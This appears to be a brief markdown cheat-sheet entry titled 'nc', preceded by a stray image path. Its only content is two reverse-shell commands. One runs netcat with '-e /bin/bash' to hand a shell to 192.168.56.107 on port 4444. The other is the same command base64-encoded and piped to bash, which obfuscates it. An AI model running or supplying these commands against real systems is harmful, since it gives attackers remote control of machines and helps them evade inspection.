 ﻿# nc

    nc -e /bin/bash 192.168.56.107 4444
    echo 'bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNTYuMTA3IDQ0NDQK' | base64 -d | bash